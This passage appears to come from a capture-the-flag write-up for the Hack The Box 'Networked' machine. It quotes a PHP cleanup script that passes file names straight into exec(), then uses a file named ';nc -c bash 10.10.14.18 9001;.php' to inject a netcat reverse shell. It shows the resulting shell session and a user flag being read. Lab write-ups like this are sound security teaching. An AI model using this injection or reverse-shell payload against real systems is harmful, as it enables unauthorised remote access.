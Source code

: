 ```

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

This code is traversing all the files in /var/www/html/uploads and doing something to each file with the line -

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

However, we can interrupt this with a semicolon and run a lot of things. However, we can't have any slashes in the command, so we'll use a netcat reverse shell instead.

To do this, we'll name a file ';nc -c bash 10.10.14.18 9001;.php' in the /var/www/html/uploads and wait for the crontab to activate. I'll open up another netcat listener and wait for the shell.

```
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 57612
ls
check_attack.php
crontab.guly
user.txt
whoami
guly
python -c 'import pty;pty.spawn("/bin/bash")'
[guly@networked ~]$ ^Z
zsh: suspended  nc -lvnp 9001

┌──(kali㉿kali)-[~/htb/networked]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

[guly@networked ~]$ whoami
guly
[guly@networked ~]$ cd
[guly@networked ~]$ ls -ltr
total 12
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-r--------. 1 guly guly  33 Jan 23 00:46 user.txt
[guly@networked ~]$ cat user.txt
REDACTED
```
